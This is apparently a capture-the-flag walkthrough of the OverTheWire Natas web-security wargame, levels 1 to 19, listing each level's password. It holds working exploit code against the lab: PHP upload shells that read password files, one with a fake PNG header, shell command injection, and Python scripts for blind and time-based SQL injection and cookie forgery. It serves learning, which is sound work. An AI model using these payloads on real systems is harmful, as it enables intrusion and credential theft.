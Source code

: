 * natas1
  gtVrDuiDfck831PqWsLEZy5gyDz1clto

* natas2
  ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

* natas3
  query /files and there is a file called users.txt
  sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

* natas4
  look at the robots.txt file
  Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

* natas5
  change the referer field
  iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq 

* natas6
  change the log in cookie to 1
  aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

* natas7
  - *array_key_exists("submit", $_POST)* checks whether the key "submit" is in the associative array $_POST (associative arrays are these with keys).
  - *$_POST$* holds the variables passed to the script with the POST method.

  The script includes a file includes/secret.inc, which is accessible and contains the secret.
  7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

* natas7
  pass the path /etc/natas_webpass/natas7 as a parameter to the php file
  DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe 

* natas8
  We have to invert the function bin2hex(strrev(base64_encode(..)))
#+BEGIN_SRC python
inp = "3d3d516343746d4d6d6c315669563362"
rev = ''.join([inp[2*i:2*(i+1)] for i in range(len(inp)//2)][::-1])
byt = bytearray.fromhex(rev)
import base64
secret = base64.b64decode(byt).decode()
#+END_SRC
W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

* natas9
- $_REQUEST: An associative array that by default contains the contents of $_GET, $_POST and $_COOKIE
query *a /etc/natas_webpass/natas10 ;*
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

* natas10
same as before except we cannot use ';', we simply drop it as the grep command accepts two files as input.
This time we look for 'c', not 'a' (trial and error)
*c /etc/natas_webpass/natas11*
U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

* natas11
- The goal is to make $data["showpassword"] == "yes".
- $data is first loaded as default data, which has showpassword set to no.
- When the data is loaded, the cookie 'data' is read and xor_decrypted
- We have the change the cookie so that when it is decrypted we get showpassword=yes. We do this using the fact that we can get the key from the plaintext/ciphertext pair.
- The plaintext looks like {"showpassword":"no","bgcolor":"#ffffff:}

The following python script decodes the cookie
#+BEGIN_SRC python
cookie = "ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw="
ciphertext = base64.b64decode(cookie)
plaintext = b'{"showpassword":"no","bgcolor":"#ffffff"}'

assert len(ciphertext) == len(plaintext)
keys = b''.join([bytes([ciphertext[i]^plaintext[i]]) for i in range(len(ciphertext))])
print(keys)

# from the above we obtain that
key = b'qw8J'
new_plaintext = b'{"showpassword":"yes","bgcolor":"#ffffff"}'
new_ciphertext = b''.join([bytes([new_plaintext[i]^key[i % len(key)]]) for i in range(len(new_plaintext))])
new_cookie = base64.b64encode(new_ciphertext)
print(new_cookie.decode())
# ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK
#+END_SRC

EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

* natas12
- *move_uploaded_file* This function checks to ensure that the file designated by filename is a valid upload file (meaning that it was uploaded via PHP's HTTP POST upload mechanism). If the file is valid, it will be moved to the filename given by destination. 
- The php program crates a folder in /upload/RANDOM_DIR/filename and puts the uploaded file there
  + The file gets a random name with extension .jpg, but this is set at the client side so we can override this to set any file extension we want (The filename gets changed at serverside though)
  + The goal is then to upload a php script that reads the key we want

#+BEGIN_SRC html
<html>
<?php
passthru("cat /etc/natas_webpass/natas13");
?>
</html>
#+END_SRC

- The extension must be .php so that the server runs it as a php script
- https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload

jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

* natas13
Now we have the function *exif_imagetype* that checks the first few bytes of the uploaded file to check if it is an image
- The signature of a gif file is 47 49 46 38 37 61 (in hex)
- The signature of a png file is 89 50 4E 47 0D 0A 1A 0A
- The signature of a bitmap (.bmp) file is 42 4D (BM in ASCII)
#+BEGIN_SRC bash
printf '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A<html><?php passthru("cat /etc/natas_webpass/natas14");?></html>' > natas14.php
#+END_SRC

Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

* natas14
Command line command:
u="\" or \"\"=\""; p="\" or \"\"=\""; curl -u natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 http://natas14.natas.labs.overthewire.org/index.php?debug=1 -d "username=$u" -d "password=$p"

The resulting query is:
SELECT * from users where username="" or ""="" and password="" or ""=""

The reason why we use this and not 1=1 is because there is a " at the end of username, which we need to match with something.

AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

* natas15
We can do sql injection again, but this time we will only get informed about the existence of a specific user. What we do is that we try to guess the password of natas16 "bit by bit"

The basic script looks like this:
u="natas16\" and password like \"%"; curl -u natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J http://natas15.natas.labs.overthewire.org/index.php?debug=1 -d "username=$u"

We can modify the prefix. 
One issue is that the sql query is case insensitive. 
To fix this we extract the prefix with the SUBSTRING function and we use the BINARY keyword that makes the comparison case-sensitive (https://www.tutorialspoint.com/how-to-make-sql-case-sensitive-string-comparison-in-mysql)

#+BEGIN_SRC python
import requests, string
alphabet = string.ascii_letters + string.digits # alphabet of characters to try out

password = ""
done=0
pos=1 # position of the password we're looking at

while done==0:
    done=1
    for ch in alphabet:
        # The sql query looks for user natas16, where the password's first "pos" positions are the string we've guessed so far.
        inj= f'natas16\" and BINARY SUBSTRING(password,1,{pos}) = \"{password}{ch}' 
        payload = {'username':inj}
        r = requests.post(url = "http://natas15.natas.labs.overthewire.org/index.php", auth=('natas15','AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'), params={'debug':'1'}, data=payload)   
        if 'doesn\'t' not in r.text:
            password += ch
            print(password)
            done = 0
            pos +=1
            break
#+END_SRC

WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

* natas16

Idea: We can query $(...). Perhaps we can write $(if ith char of password is X then print a, else print 1). 'a' will match the dictionary whereas '1' won't.

We use grep. We query the word "befalling". 

> befalling$(grep ^a /etc/natas_webpass/natas17)

If the password begins with 'a', it will return "befallinga", which is not in the dictionary. Else, it will return "befalling", which is in the dictionary.

#+BEGIN_SRC python
import requests, string
alphabet = string.ascii_letters + string.digits # alphabet of characters to try out

password = ""
done=0
pos=1 # position of the password we're looking at

while done==0:
    done=1
    for ch in alphabet:
        #print(f"Trying ch = {ch}")
        data= f'befalling$(grep ^{password+ch} /etc/natas_webpass/natas17)'
        r = requests.get(url = f"http://natas16.natas.labs.overthewire.org/", auth=('natas16','WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'), params={'needle':data, 'submit':'Search'})
        if 'befalling' not in r.text:
            password += ch
            print(password)
            done = 0
            pos +=1
            break
print("Done!")
#+END_SRC

8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

* natas17

The idea here is to use the sql SLEEP command, which will cause the
query to sleep for some time. We will perform multiple queries trying
to guess each character of the password, and if there is a match, we
will ask SQL to sleep 5 seconds. This allows us to distinguish matches
from non-matches

Basic idea:

u='natas18" and BINARY SUBSTRING(password,1,1) = "g" and sleep(5) and ""="';
curl -u natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw http://natas17.natas.labs.overthewire.org/index.php?debug=1 -d "username=$u"

sleep(5) only gets called if the first two statements result in something.

#+BEGIN_SRC python
import requests, string
from datetime import timedelta
alphabet = string.ascii_letters + string.digits # alphabet of characters to try out

password = ""
done=0
pos=1 # position of the password we're looking at

def test_username(username, iter=1):
    r = requests.get(url = f"http://natas17.natas.labs.overthewire.org/index.php?debug=1", auth=('natas17','8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw'), params={'username':username})
    
    req = [requests.get(url = f"http://natas17.natas.labs.overthewire.org/index.php?debug=1", auth=('natas17','8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw'), params={'username':username}).elapsed for _ in range(iter)]
    
    summ = timedelta(0)
    for r in req:
        summ += r
    avg = summ/iter

    return avg

while done==0:
    done=1
    for ch in alphabet:
        print(f'Testing {ch}')
        data = f'natas18" and BINARY SUBSTRING(password,1,{pos}) = "{password+ch}" and sleep(5) and ""="'
        if test_username(data) >= timedelta(seconds=5):
            password += ch
            print(password)
            done = 0
            pos += 1
            break
#+END_SRC

xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

* natas18

u='test'; p='ptest'; curl -u natas18:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP http://natas18.natas.labs.overthewire.org/index.php?debug=1 -d "username=$u" -d "password=$p" --cookie PHPSESSID=119

We have to find the session ID that was used for the admin. This can be easily bruteforced. 
Also, try burpsuite! (set the proxy, use the intruder)

Correct cookie: 119

4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

* natas19

u='test'; p='ptest'; curl -u natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs http://natas19.natas.labs.overthewire.org/index.php?debug=1 -d "username=$u" -d "password=$p" --cookie PHPSESSID=16
